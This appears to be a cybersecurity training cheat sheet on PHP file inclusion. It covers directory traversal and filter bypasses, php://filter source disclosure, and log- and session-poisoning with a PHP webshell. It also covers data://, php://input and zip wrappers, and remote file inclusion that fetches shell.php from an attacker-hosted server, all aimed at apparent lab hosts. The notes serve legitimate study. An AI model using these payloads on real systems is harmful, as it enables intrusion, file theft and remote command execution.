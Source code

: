 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# FILE INCLUSION / DIRECTORY TRAVERSAL

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"
....// = %2e%2e%2e%2e%2f%2f

index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami

Base encoded PHP webshell
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"
"http://139.59.175.51:30183/index.php?page=php://filter/read=convert.base64-encode/resource=index"
"http://10.129.175.146/index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"

## Notes
### Local File Inclusion
What is Local File Inclusion:
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"

Scripts can employ search and replace techniques to avoid path traversals. For example:
$language = str_replace('../', '', $_GET['language']);
This will attempt to replace the traversal attack.
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

### LFI to Remote Code Execution
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.
For example we run the request "http://139.59.175.51:32110/index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.
Example "http://139.59.175.51:32110/index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"

http://139.59.175.51:32110/index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt
http://139.59.175.51:32110/index.php?language=<?php system($_GET['cmd']); ?>
http://139.59.175.51:32110/index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.
http://139.59.175.51:30183/index.php?page=php://filter/read=convert.base64-encode/resource=index

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.
Example: "index.php?language=http://localhost:8080/file"

Next, use the ftp:// scheme to access shell.php present in the FTP root.
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
